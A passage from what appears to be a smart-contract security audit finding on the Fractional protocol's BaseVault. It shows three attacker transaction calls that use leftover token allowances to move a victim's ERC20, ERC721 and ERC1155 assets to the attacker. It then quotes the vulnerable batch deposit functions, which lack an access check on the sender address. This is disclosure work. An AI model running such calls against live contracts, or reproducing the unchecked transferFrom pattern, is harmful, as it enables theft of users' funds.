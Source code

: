 An attacker notices that there is residual allowance left on the `baseVault`, thus the attacker executes the following transactions to steal Alice's assets and send them to the attacker's wallet address.

```solidity
baseVault.batchDepositERC20(alice.addr, attacker.addr, [XYZ.addr], [950])
baseVault.batchDepositERC721(alice.addr, attacker.addr, [APE.addr, APE.addr], [#2, #3])
baseVault.batchDepositERC1155(alice.addr, attacker.addr, [ABC.addr], [#1], [950], "")
```

<https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/protoforms/BaseVault.sol#L58>

```solidity
function batchDepositERC20(
    address _from,
    address _to,
    address[] calldata _tokens,
    uint256[] calldata _amounts
) external {
    for (uint256 i = 0; i < _tokens.length; ) {
        IERC20(_tokens[i]).transferFrom(_from, _to, _amounts[i]);
        unchecked {
            ++i;
        }
    }
}
```

<https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/protoforms/BaseVault.sol#L77>

```solidity
function batchDepositERC721(
    address _from,
    address _to,
    address[] calldata _tokens,
    uint256[] calldata _ids
) external {
    for (uint256 i = 0; i < _tokens.length; ) {
        IERC721(_tokens[i]).safeTransferFrom(_from, _to, _ids[i]);
        unchecked {
            ++i;
        }
    }
}
```

<https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/protoforms/BaseVault.sol#L91>

```solidity
function batchDepositERC1155(
    address _from,
    address _to,
    address[] calldata _tokens,
    uint256[] calldata _ids,
    uint256[] calldata _amounts,
    bytes[] calldata _datas
) external {
    unchecked {
        for (uint256 i = 0; i < _tokens.length; ++i) {
            IERC1155(_tokens[i]).safeTransferFrom(
                _from,
                _to,
                _ids[i],
                _amounts[i],
                _datas[i]
```